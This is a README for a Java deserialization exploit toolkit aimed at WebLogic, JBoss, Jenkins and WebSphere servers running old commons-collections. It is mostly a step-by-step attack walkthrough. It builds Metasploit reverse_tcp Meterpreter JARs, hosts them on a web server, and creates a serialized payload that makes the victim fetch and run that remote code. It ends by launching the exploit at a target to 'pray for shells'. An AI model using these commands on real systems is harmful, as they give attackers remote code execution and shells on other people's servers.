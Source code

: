 Java Untrusted Deserialization Exploits Tools
===

## Originally from github.com/getcode2git/exserial
---

Not much change in code here as it works a charm. However original github is all in Chinese, so for anyone fluent - please visit the original creator :)
Weblogic Versions: 10.3.6, 12.1.2, 12.1.3, 12.2.1
As for the others its probably easily discoverable - just anything running the older versions of commons-collections...

Structure
---

    .
    |____README.md
    |____exserial.jar     CommonsCollections <= 3.2.1 Exploit Gadget
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet
    | |____jenkin.py      Jenkins CLI
    | |____weblogic.py    WebLogic
    | |____websphere.py   WebSphere

---

`exserial.jar` Deserialisation Payload Generator：`CommandExec` && `ClassInject`

    $ java -jar exserial.jar
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec

Ability to call command execution：

    $ java -jar exserial.jar CommandExec
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            

### 2. ClassInject

The `main` method used to cause the target server to dynamically load our specified JAR package and execute the specified class name.

For all you lovely testers `msfvenom` as part of the metasploit package [Metasploit](https://github.com/rapid7/metasploit-framework) with the `java/meterpreter/reverse_tcp` JAR payload：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
Inject `java_meterpreter_reverse_tcp.jar` into our main class within `exserial.jar` with metasploit.Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

### 3. Useage

Set that **MSF handler** running ->
` use exploit/multi/handler `
` set PAYLOAD java/meterpreter/reverse_tcp `
` set LHOST x.x.x.x `
` set LPORT 1234 `
` exploit -j `

Create a malicious **Java Meterpreter** ->
`msfvenom -p java/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f jar > my_reverse_meterpreter.jar`

Host that bad boy on your **webserver**, make sure that the victim will be able to access this ->
` mv ./my_reverse_meterpreter.jar /var/www/html/`
` service apache2 start` <- Or whatever HTTP Server you prefer :)

Generate your malicious **servlet** ->
` java -jar exserial.jar ClassInject "http://yourwebserver:port/my_reverse_meterpreter.jar" "metasploit.Payload" > exploit.ser`

Fire away and **pray for shells** ->
` python scripts/weblogic.py http://somepoorsod 7001 exploit.ser`

